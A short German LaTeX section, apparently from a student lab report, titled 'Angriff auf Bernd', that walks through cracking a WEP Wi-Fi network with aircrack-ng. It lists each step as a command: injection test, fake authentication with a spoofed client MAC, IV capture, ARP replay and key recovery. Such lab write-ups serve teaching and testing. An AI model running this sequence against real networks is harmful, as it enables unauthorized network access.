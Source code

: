 \documentclass[10pt,a4paper]{article}
\begin{document}
\subsection{Angriff auf Bernd}

Als erstes haben wir mit dem Kommando \texttt{aireplay-ng --test -e Bernd -a 64:70:02:1A:B1:81 --ignore-negative-one wlan1} überprüft, ob wir in das Netzwerk Bernd Packete injizieren können.
Da unser Client nicht am Access Point authentifiziert ist, führen wir mittels \texttt{aireplay-ng  -1 0 -e Bernd -a 64:70:02:1A:B1:81 -h 00:C0:CA:55:54:5F --ignore-negative-one wlan1} eine Fakeauthentifizierung durch.

IVs mitschneiden: \texttt{airodump-ng -c 2 --bssid 64:70:02:1A:B1:81 -w output wlan1}

ARP Replay:  \texttt{aireplay-ng -3 -b 64:70:02:1A:B1:81 -h 00:C0:CA:55:54:5F wlan1}

Aus den Abgefangen Packeten den IV berechnen: \texttt{aircrack-ng -b 64:70:02:1A:B1:81 output*.cap}


TODO: Link entfernen: 
\end{document}
